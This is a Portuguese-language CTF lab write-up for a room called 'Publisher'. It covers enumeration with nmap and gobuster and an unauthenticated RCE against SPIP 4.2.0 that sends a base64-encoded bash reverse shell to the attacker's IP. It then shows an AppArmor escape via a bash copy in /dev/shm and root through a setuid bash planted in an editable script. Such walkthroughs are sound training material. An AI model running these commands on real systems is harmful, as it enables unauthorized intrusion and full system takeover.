

# _**Publisher CTF**_


No começo da sala, temos a seguinte descrição:  
_Por meio de uma série de técnicas de enumeração, incluindo fuzzing de diretório e identificação de versão, uma vulnerabilidade é descoberta, permitindo a Execução Remota de Código (RCE)_  
_Tentativas de escalonamento de privilégios usando um binário personalizado são dificultadas pelo acesso restrito a arquivos e diretórios críticos do sistema, exigindo uma exploração mais aprofundada do perfil de segurança do sistema para, em última análise, explorar uma brecha que permite a execução de um shell bash não confinado e obter escalonamento de privilégios_

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Temos uma página web, vamos investigar  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar por diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Encontramos alguns diretórios, mas nada de útil  
Vamos tentar novamente, mas com _directory-list-2.3-medium.txt_  
E temos um diretório diferente  


Vamos executar novamente um scan com <mark>Gobuster</mark> neste novo diretório descoberto  


Ao investigar estes diretórios descobertos, somos levados a uma página de login que pede e-mail e senha  
Apesar de estar em frânces, é possível traduzir  
Pesquisando ainda nos diretórios encontrados, temos a versão do **SPIP**: 4.2.0  
No google, encontramos um [exploit RCE](https://www.exploit-db.com/exploits/51536) sem autenticação necessária!  
Vamos executar os seguintes comandos
> ```bash
> echo -n "bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1" | base64 -w0
> python3 51536.py -u 'http://10.10.147.142/spip' -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjMuMTU5LzQ0NDQgMD4mMQ== | base64 -d | bash'
> ```
Ao executar o código, recebemos um erro  
Pesquisando como corrigir este erro, é preciso utilizar ```pip install```  
Como estou utilizando o Kali, fui procurar alternativas  
Encontrei [este código](https://github.com/notomodo/THM/blob/main/51536_urllib3_fix.py?source=post_page-----2a028b2786b3---------------------------------------)
E funcionou!  


## _**Escalando privilégios**_
Para escalarmos privilégios, verificamos a dica que recebemos para a segunda flag  
_Look to the App Armor by it's profile_  
Após executar alguns comandos procurando por binários que seriam passíveis de exploração, nada foi encontrado  
Verificando os arquivos do diretório _/home_, temos o seguinte  


Podemos ver _id_rsa_, do qual podemos usar para conectar via ssh que ofereceria uma conexão mais estável e confiável  
Na tentativa de obter, descobrimos que não tem o comando ```wget```  
Vamos ter que fazer isso manualmente  
Alterando as permissões com ```chmod 600 [filename]```, tentamos login via **SSH**  
E temos login!  


Verificando _/etc/_, encontramos **apparmor**  
Agora, para conseguirmos escalar privilégios, vamos investigar um pouco os arquivos no diretório  
O seguinte acaba chamando a atenção, _usr.sbin.ash_, um perfil **AppArmor**  
Verificando com ```cat```, temos a seguinte linha: **/usr/sbin/ash flags=(complain)**  
Isso está no modo complain, o que significa que o AppArmor não está bloqueando efetivamente, apenas registrando alertas  
Um destes diretórios é _/dev/shm_  
Vamos verificar a execução de _/bin/bash_ com ```ls -la /bin/bash```  


Vamos executar os seguintes comandos
> ```bash
> cd /dev/shm
> cp /bin/bash .
> ./bash -p
> ```

Isso nos garantiu shell bash e, portanto, acesso a _/opt_  
Alterando para o diretório e verificando as permissões, temos o arquivo _run_container.sh_ pode ser editado  
Podemos usar para obter _root_  
Vamos adicionar as linhas no início
> ```bash
> cp /bin/bash /tmp/default
> chmod +s /tmp/default
> ```

Estamos criando uma cópia de _/bin/bash_ como root e tendo como _/tmp/default_, dando a ela permissões +s que permitem que o arquivo seja executado com os privilégios do proprietário do arquivo  
Executando _run_contianer_ e em seguida indo executar _default_, obtemos _root_  



Agora, só ir atrás da flag!
